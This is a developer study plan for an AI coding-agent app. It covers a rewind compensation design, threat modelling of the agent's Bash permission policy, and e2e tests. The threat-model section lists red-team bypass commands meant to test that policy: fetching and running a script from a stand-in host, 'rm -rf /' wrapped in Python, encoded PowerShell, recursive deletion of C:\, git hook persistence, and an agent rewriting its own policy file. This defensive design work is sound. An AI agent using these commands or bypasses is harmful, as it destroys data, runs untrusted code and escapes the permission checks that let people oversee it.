


# P1 学习向实施步骤书：rewind 补偿事务 / 威胁建模 / 跨入口 e2e

> 更新时间：2026-08-26
> 定位：这是给你（人）亲手做的学习任务书。纯操作类杂活已由自动化完成，本文只包含有学习含量的三件事。
> 每一步都标注了真实代码锚点和验收标准；先写测试再改实现，禁止跳过验收。

## 零、前置状态（已完成，不需要你做）

以下工作已提交（git log 可查）：

| Commit      | 内容                                                                                                                                                                                                             |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `3bf33b1` | cli/ → gui/ 目录重命名、java 包 xenyon→xeyo、资产更名                                                                                                                                                          |
| `000d44e` | Ask/Plan 模式 + workspace git/terminal 后端 checkpoint                                                                                                                                                           |
| `8da05a4` | **P1-1 最小审计日志**：`python/audit/log.py`，只记 `permission.pending/resolved/denied` 与 `tool.started/finished` 五类事件，接线点在 `ToolRegistry._execute_audited` 与 `PermissionCoordinator` |
| `7a72883` | **P1-7 CSP**：tauri.conf.json 从 null 改为显式白名单                                                                                                                                                       |

P1-5（CORS 白名单）已在工作区由另一会话完成（`server/app.py:_cors_origins`），合并时注意不要覆盖。

---

## 一、P1-2/P1-3 rewind 事务补偿（预计 3 个半天）

### 1.1 先补概念（半天，读+写笔记，不写码）

你要能不看资料回答这些问题，再动手：

1. **为什么这里是 Saga 而不是分布式事务？**
   回溯横跨三个参与者：后端 workspace 文件（RollbackService）、后端 transcript JSONL、前端 IndexedDB/localStorage 投影。三者无法共享一个数据库事务，只能做"本地事务 + 补偿动作"。回忆 Saga 的两种协调方式：编排（orchestration，中央协调器）vs 协同（choreography，事件驱动）。XEYO 现在是哪一种？（提示：前端 chatStore 在当协调器。）
   编排
2. **部分成功（partial success）为什么必须是一等状态？**
   列出 `executeRollback` 中"后端 committed 但前端某步失败"的所有窗口。每个窗口里，系统的三个参与者分别处于什么状态？哪个是权威？
3. **幂等键的作用域**。当前 `idempotencyKey` 保护的是"execute 不重复执行"。思考：resend 重试需不需要新的幂等键？为什么 resend 本身天然安全或天然危险？

### 1.2 现状剖析：一次 rewind 事件的全步骤与时序图

> 学习方式说明：本节原设计是"你自己对着代码画时序图"。现已补齐完整步骤与两张图，学习动作改为三步：**先通读 → 合上文档凭记忆重画 → 在 happy path 图上标出 W1/W2/W3 的插入点**。画不出来的环节就是知识缺口。

关键锚点：

- 后端服务：`python/rewind/service.py`
  - `preview()` → 行 459；`execute()` → 行 697
  - 总开关 `XEYO_REWIND_ENABLED`（行 322-328），默认关——你的手工验证都要先开它
  - 已有能力：plan hash 前置条件、幂等键冲突检测（`RollbackIdempotencyError`）、journal/recovery
- HTTP API：`python/server/app.py`
  - `POST /v1/sessions/{id}/rollback/preview` / `rollback/execute` / `GET rollback/status/{jobId}`
- 前端状态机：`gui/src/stores/chatStore.ts` 的 `executeRollback()`（行 2348-2446）
  - 当前序列：`executing` → 后端 commit → 找 targetMessageId → 本地截断 `replaceMessages` → `sendMessage(editedText)` → 成功才清状态
  - 失败路径已有三种 error 文案，但状态机只有 `ready/executing/success/error` 六态里的两档——**committed 之后发生的失败和 commit 之前失败被压成同一个 `error`**

#### 1.2.1 一次 rewind 事件分三阶段（preview → execute → 前端收尾）

**阶段一：preview（只读，产出计划）**

| #  | 步骤                                                                                                                                           | 代码锚点       |
| -- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------- |
| P1 | 会话忙检查，忙则`LeaseBusyError`                                                                                                             | service.py:459 |
| P2 | 计算 workspace 当前 revision 指纹（后续 execute 时做乐观校验）                                                                                 | :463           |
| P3 | 取 head revision，逐条比对当前 transcript 的 message_ids——不一致即冲突拒绝（说明历史已被别处改动）                                           | :466-472       |
| P4 | 定位目标 turn，算出受影响/保留的 turn 集合与文件操作清单                                                                                       | :473-481       |
| P5 | 文件前置条件检查：每个受影响文件的当前 hash 必须与 revision 记录一致，否则记入 conflicts                                                       | :478           |
| P6 | 构造`RollbackPlan`：plan_hash = 对计划载荷的规范化 JSON 哈希；含 expires_at(TTL)、retained_message_ids、target_commit(该轮之前的 git commit) | :484-528       |

产出：`status=approval_required`（可执行）或 `blocked`（有冲突）。plan 有 TTL，过期作废——这是"预览不锁定世界"的经典设计：计划只保证生成瞬间成立，执行前全部重验。

**阶段二：execute（写事务，后端权威）**

| #    | 步骤                                                                                                                                           | 代码锚点 |
| ---- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------- |
| E1   | 幂等键查重：同 key+同 plan → 直接返回已存在 job（幂等重放）；同 key 不同 plan →`RollbackIdempotencyError`                                  | :697-699 |
| E2   | `_validate_plan`：plan_hash 匹配 / 未过期 / 状态可执行 / workspace root 未变 / source revision 仍是 head——**五重前置条件全过才动手** | :530-545 |
| E3   | confirmed 必须 true；再查 session busy；写 ApprovalRecord，plan→approved                                                                      | :703-708 |
| E4   | 建 RecoveryJob(status=preparing)，journal 记 execute_started                                                                                   | :711-725 |
| E5   | 双锁：SessionLock + WorkspaceLock(owner=job_id)，防并发执行与文件竞态                                                                          | :729-740 |
| E6   | 复核文件前置条件 + expected_workspace_revision 校验（preview 到 execute 之间工作区没被人动过）                                                 | :741-749 |
| E7   | checkpoint：把受影响文件当前状态备份（补偿用），job→executing                                                                                 | :752-753 |
| E8   | 恢复事务：WorkspaceRestoreTransaction 按 target_commit 还原工作区（删除类操作入 trash）；无 target_commit 时退化为逐操作`_apply_inverse`     | :756-780 |
| E9   | 截断 transcript：`_rewrite_transcript(retained_ids)` 重写 JSONL（留备份 hash），返回新 hash                                                  | :781-782 |
| E10  | 创建新 revision(parent=source_revision)；job→committed；journal 记 rollback_committed；回调`_on_commit` 通知引擎                            | :784-812 |
| 补偿 | 任何一步异常 →`_restore_checkpoint` 还原备份；有部分应用或补偿失败 → status=`recovery_required`，否则 `blocked`                        | :813-826 |

**阶段三：前端收尾（投影 + 重发）——问题都出在这段**

| #  | 步骤                                                                                          | 锚点                   |
| -- | --------------------------------------------------------------------------------------------- | ---------------------- |
| F1 | 收到 committed 后本地找 targetMessageId，截断 messagesById 并`replaceMessages` 写 IndexedDB | chatStore.ts:2394-2420 |
| F2 | `sendMessage(editedText)` 开启新一轮；成功才清 idleRollbackState                            | :2421-2427             |
| F3 | 任一步失败落 error（W1/W2/W3 全部产生于本段）                                                 | :2398-2435             |

#### 1.2.2 Happy path 时序图



#### 1.2.3 失败与补偿时序（W1/W2/W3 标注）



对照上图可以看到三个不一致窗口的共同根因：**commit 之后前端还有两步本地动作（截断投影、resend），但状态机没有为"后端已完成"之后的失败准备独立状态**。

| 窗口 | 触发                                                 | 当前表现                             | 后果                                                                               |
| ---- | ---------------------------------------------------- | ------------------------------------ | ---------------------------------------------------------------------------------- |
| W1   | commit 成功，但`targetIndex < 0`（本地没这条消息） | status=error，文案说"已停止自动重发" | 后端已回滚，前端还显示旧历史；刷新后从 IndexedDB 恢复旧投影                        |
| W2   | 截断成功，resend 失败（网络/后端忙）                 | status=error，文案"未能重新发送"     | 用户不知道该重发还是要重新回溯；没有任何入口重试 resend                            |
| W3   | commit 请求超时但实际成功（响应丢失）                | catch 分支 status=error              | 用户再点执行 → 同一 idempotencyKey 返回已提交的 job（好），但前端把它当新错误渲染 |

### 1.3 实施步骤

**PR-R1：引入 RollbackPhase 显式状态机（前端为主）**

1. `gui/src/lib/types.ts`：新增

   ```ts
   type RollbackPhase =
     | 'idle' | 'previewing' | 'blocked' | 'ready'
     | 'executing'
     | 'committed_truncating'    // 新：W1 所在段
     | 'committed_resend_failed' // 新：W2，可重试
     | 'completed' | 'failed';
   ```

   把现有 `status` 字段的取值迁移过去（保留旧字段一个版本，UI 按 phase 渲染）。
2. `chatStore.ts executeRollback()`：把 commit 之后的每一段包进对应 phase 的 set+persist。W1/W2 不再落 `failed`，而是落 `committed_*`。
3. 测试（`chatStore.test.ts`）：mock `api.executeRollbackRequest` 三种返回（commit 失败 / commit 成功+找不到消息 / commit 成功+resend 失败），断言 phase 落点与 IndexedDB 持久化内容。
   验收：三个窗口各有独立可断言的状态。

**PR-R2：committed_truncating 的自愈（补偿 = 从权威重建投影）**

1. 关键决策：transcript 的权威在后端 JSONL。W1 发生时，正确动作不是猜，而是调已有的 hydrate 路径重新拉取会话消息替换本地（找到 `loadSessionMessages` 或等价函数）。
2. 实现：进入 `committed_truncating` 后先尝试本地截断；`targetIndex<0` 时走远端重建；两者都失败才落 `failed` 并提示手动恢复。
3. 测试：mock 远端返回截断后的历史，断言本地被替换为服务端版本。

**PR-R3：committed_resend_failed 的重试按钮（不重新执行回溯！）**

1. UI：`WorkspaceRevertDialog.tsx`（或 rollback 相关组件）在该 phase 下显示"重新发送编辑后消息"，点击调用一个新的 store action `retryResendAfterRollback()`，它复用持久化在 rollback state 里的 `editedText` 与原 `idempotencyKey`。
2. 为什么复用 key：即使 retryResend 内部又触发了一次意外 execute（防御性），幂等层也会拒绝二次执行。把这个推理写成一行注释放在 action 上方。
3. 测试：resend 第一次失败→phase=committed_resend_failed→重试成功→completed 且 rollback state 清空。

**PR-R4：刷新恢复（跨重启的部分成功可见性）**

1. `db.ts` 已有 rollback state 持久化；启动加载处（搜 `rollbackRows`，约行 695-733）对非 idle/completed 的持久化状态弹一条恢复询问（复用 ErrorBanner 或轻量 toast 即可）："上次回溯已提交但未完成重发，是否重试？"→ 接 PR-R3 的 action。
2. 测试：模拟 persist 了 committed_resend_failed 后冷启动，断言出现恢复入口。

### 1.4 面试可讲点（做完立刻写下来，趁热）

- "我们为什么选前端编排的 Saga？如果改成后端编排（execute 直接代发 resend）会失去什么？"（失去用户对 resend 内容的最终控制权，但消除 W2 —— 这是一个真实 tradeoff，说出你的选择理由）
- 幂等键的生命周期设计：谁生成、何时失效、为何 execute 与 resend 共用一个键是安全的。
- "at-least-once + 幂等 ≈ exactly-once"在这套机制里的体现。

### 1.5 最终文件树与交付物清单

本节是 PR-R1~R4 的**全部**涉及文件。派活/自查以此为准：树里没有的文件不许动。

```
gui/
└── src/
    ├── components/
    │   └── WorkspaceRevertDialog.tsx        [改] phase=committed_resend_failed 时渲染
    │                                             "重新发送"按钮 → retryResendAfterRollback()
    │                                             （PR-R3；若确认弹窗实际在别的组件，以 grep
    │                                              rollbackById 的消费组件为准，只改那一处）
    ├── lib/
    │   ├── types.ts                          [改] 新增 RollbackPhase 联合类型 + 迁移说明注释（PR-R1）
    │   ├── db.ts                             [改] rollback 快照持久化结构加 phase 字段；
    │   │                                         启动加载处恢复询问入口（PR-R4）
    │   └── rollbackMachine.ts                [新] 纯函数状态机：
    │                                             transition(current, event) -> next
    │                                             事件集: PREVIEW_OK / BLOCKED / EXECUTE_START /
    │                                             COMMITTED / TRUNCATE_FAIL / RESEND_SENT /
    │                                             RESEND_FAIL / RETRY_RESEND / CANCEL / RESET
    │                                             把 chatStore 里的 if/else 判定全部收拢到这里，
    │                                             store 只负责 set+persist（可测性的关键）
    └── stores/
        ├── chatStore.ts                      [改] executeRollback() 按阶段表(F1-F3)分段落 phase;
        │                                          新增 action: retryResendAfterRollback();
        │                                          W1 自愈调用远端重建投影(PR-R2)
        ├── chatStore.test.ts                 [改] 三窗口回归用例(mock executeRollbackRequest
        │                                          的三种返回),断言 phase 落点与持久化内容
        └── rollbackMachine.test.ts           [新] 状态机穷举单测:
                                                   每个状态 × 每个事件 = 期望迁移或原地不动

python/                                       [不动] rewind/* 全部不改——后端事务骨架已够用,
                                                     W1 自愈复用现有会话消息拉取接口
docs/
└── 22-P1学习向实施步骤书.md                   [改] 做完后在 §1.4 追加你自己的叙事答案
```

新增文件命名理由：

| 文件                        | 为什么单独建                                                                                                                                       |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `rollbackMachine.ts`      | 状态迁移逻辑抽成纯函数后，穷举测试不需要 mock store/IndexedDB/网络；chatStore 体积已 2600+ 行，再塞一个状态机会失控。这是" reducer 隔离"的标准做法 |
| `rollbackMachine.test.ts` | 对应单测；与 chatStore.test.ts 分开，前者测迁移正确性，后者测副作用(set/persist/远端调用)                                                          |

IndexedDB rollback 快照最终形态（db.ts 中落盘的字段）：

```ts
{
  sessionId: string,
  planId?: string,
  planHash?: string,
  idempotencyKey: string,      // execute 与 retryResend 共用
  editedText: string,          // retryResend 重发的内容来源
  targetMessageId: string,
  phase: RollbackPhase,        // 本次改造的核心新增字段
  error: string | null,
  updatedAt: number,
}
```

明确不做（防 scope 蔓延）：

- ❌ 不新建"审计面板"、不新建第二个 rollback store、不动 `remoteStore`
- ❌ 不改后端任何文件（包括 `rewind/service.py`、`server/app.py`）
- ❌ 不做 UI 美化——恢复询问复用 ErrorBanner/toast 即可

---

## 二、P1-4 威胁建模（预计 2 个半天，产出物是文档+ADR+红队清单）

> 明确不做：`.xeyo-policy.json` 的读写实现（那是 CRUD）。本任务的全部价值在思考过程与书面结论。实现留到结论冻结之后。

### 2.1 资产与信任边界（1 小时，画表）

| 入口                     | 能触达的资产                  | 已有防线                   | 我的评分(高/中/危) |
| ------------------------ | ----------------------------- | -------------------------- | ------------------ |
| Tauri 桌面               | 全部                          | CSP(刚加)、CORS 白名单     | 高                 |
| FastAPI :8000 局域网     | workspace 文件、Bash、API key | token 仅 remote channel 用 | 危                 |
| iLink 微信               | 会话、文件发送                | peer 隔离、context token   | 中                 |
| File Helper 页面         | final-only 收发               | intentionally thin         | 中                 |
| 审计日志`.xeyo_audit/` | 可篡改性                      | append-only(进程内)        | 高                 |

### 2.2 现有策略盘点（1 小时，逐条给出"为什么合理/为什么不够"）

精读这三份，每条规则写一句威胁假设：

- `python/permissions/bash_policy.py`：9 条黑名单（root rm、format、mkfs、shutdown、hklm、管道下载执行、fork bomb）
- `python/permissions/policy.py`：`_ALWAYS_ALLOW` 八个免审工具、unknown tool 默认 ASK、Bash 写文件双重防护（重定向/tee/sed -i 检测）、工作区外一律 DENY
- `python/server/app.py:_cors_origins`：默认仅本机来源

批判性问题（各写 100 字答案）：

1. 黑名单 vs 白名单：Bash 为什么现在是"黑名单兜底+写检测升级审批"而不是"命令白名单"？改成白名单会杀死哪些合法用例？
2. `_ALWAYS_ALLOW` 里 Screenshot 会把截图发往远程通道——"免审批"+"外发副作用"这个组合你怎么论证它的风险等级？
3. unknown→ASK 是 deny-by-default 吗？绕过 ASK 的路径有哪些？（提示：skip_ask 参数、直接调 tools/*、bridge 入口）

### 2.3 Bash 命令分类学（核心练习，2 小时）

建一张四象限分类表（写到本文档附录），每一类给出：判定正则草案、默认决策、理由。

| 类别          | 例                                  | 默认决策建议             |
| ------------- | ----------------------------------- | ------------------------ |
| A 只读查询    | ls, cat, git status, node -v        | ALLOW                    |
| B 工作区内写  | echo > f.txt, git add/commit        | 现 policy 已走写入审批链 |
| C 网络/解释器 | curl, pip install, python script.py | ASK                      |
| D 明确破坏性  | 现黑名单九条                        | DENY                     |

然后用 10 条绕过尝试红队你自己的表（每条记录：能否绕过、为什么）：

```
1. curl http://evil.sh -o x.ps1; ./x.ps1          （拆成两条合法命令）
2. python -c "import os; os.system('rm -rf /')"   （解释器包住危险命令）
3. git push --force 到错误 remote                  （不可逆但不在任何名单）
4. echo data >> ../../outside.txt                 （相对路径逃逸，fs 层拦不拦？）
5. powershell -enc <base64>                       （编码混淆）
6. del /f /s /q C:\                               （Windows 原生删除，黑名单只有 rm）
7. npm install && npm run prepare                 （包管理器脚本钩子=任意执行）
8. mklink 创建符号链接后再写                        （链接逃逸，workspace_fs 是否跟随？）
9. git config core.hooksPath /evil                （配置型持久化）
10. 把上面任意一条放进 .xeyo-policy.json 允许列表    （策略文件本身被 Agent 写了怎么办）
```

### 2.4 固化为 ADR（1 小时）

新建 `docs/adr/0001-bash-policy-defaults.md`，用一页纸记录：背景→决策（每象限默认值）→后果→放弃的备选项。第 10 条红队结论单独成节："策略文件的写权限必须高于工具权限"（即 Agent 永远不能写 policy 文件——把它变成一条硬规则写进去）。

### 2.5 面试可讲点

- "deny-by-default 在你的系统里具体落在哪三行代码"；STRIDE 四类威胁各举一个 XEYO 真实例子；
- 为什么审计日志（已完成的 `audit/log.py`）是威胁模型的组成部分而非附属功能。

---

## 三、P1-6 跨入口 e2e（预计 3 个半天，机械但打通全链路）

### 3.1 Harness 设计（半天）

不起浏览器、不起微信，用 pytest + httpx 直接打两个真实入口：

- **SSE 入口**：`TestClient(app)` 对 `POST /v1/chat/completions`(stream) 逐行解析 `data:` 帧（参考 `test_server_api.py` 现有写法）
- **JSONL bridge 入口**：`subprocess.Popen([sys.executable, "-m", "bridge"], stdin=PIPE, stdout=PIPE)`，cwd 设为 `python/`，用线程读 stdout 防止管道阻塞

公共断言库 `python/tests/e2e_harness.py`：

```python
def parse_sse_events(resp_text) -> list[dict]: ...      # 解析 envelope
def assert_same_turn(events_a, events_b): ...            # session_id+turn_id 一致
def assert_single_tool_row(events): ...                  # 重复事件不产生第二个工具行
```

### 3.2 场景矩阵（每个场景一个测试函数，共 8 个）

| #  | 场景                 | 断言                                                                                                                      |
| -- | -------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| S1 | 同一 turn 双入口观察 | SSE 与 bridge 输出的 session_id/turn_id/event_id 序列一致                                                                 |
| S2 | 乱序注入             | 把 delta 事件打乱顺序喂给前端 reducer 语义（借`api.stream.test.ts` 思路移植到 Python 侧模拟）不产生重复内容             |
| S3 | 重复事件去重         | 同 event_id 重放两次，最终文本只拼一次                                                                                    |
| S4 | 断线重放             | SSE 连接中断后带`Last-Event-ID` 语义重连（若后端未实现 reset/replay，此条改为记录差距清单——这也是产出）               |
| S5 | 权限挂起跨入口       | Write 触发 pending → 经`/v1/permission/resolve` 批准 → SSE 流恢复并出现 tool.started 审计事件（联动刚做的 audit log） |
| S6 | 权限超时拒绝         | resolve 超时 → 流收到拒绝结果，session 可继续下一轮                                                                      |
| S7 | 双 session cwd 隔离  | 两个 session 分别 set_cwd 后并行跑 Read，互不串目录                                                                       |
| S8 | rewind 后 turn 绑定  | 开启 XEYO_REWIND_ENABLED=1，rollback execute 后新 turn 的 turn_id 单调且 transcript 截断生效                              |

### 3.3 执行与产出（半天）

1. 已知沙箱坑：`test_ilink_channel`/`test_filehelper_channel` 整文件会因长轮询计时挂起——你的 e2e 不要 import 它们的模块级 fixture。
2. 跑法：
   ```powershell
   cd python
   .venv\Scripts\python.exe -m pytest tests/e2e -q
   ```
3. S4 若发现后端没有 replay 能力，输出《差距清单》追加到本文档末尾，作为下一个 PR 的输入——e2e 的第二产出就是这种"证明哪里断了"的报告。

---

## 四、推荐时间盒与顺序

```
Day 1 上午   1.1 概念笔记 + 1.2 时序图（不动代码）
Day 1 下午   PR-R1 + PR-R2
Day 2 上午   PR-R3 + PR-R4，rewind 全绿后一次性 commit
Day 2 下午   2.1-2.3 威胁建模（纯文档）
Day 3 上午   2.4 ADR + 红队清单复盘
Day 3 下午   3.1 harness + S1-S3
Day 4        S4-S8 + 差距清单
```

每个 PR 独立 commit，格式沿用仓库惯例：`feat(rewind): ...` / `docs(security): ...` / `test(e2e): ...`。
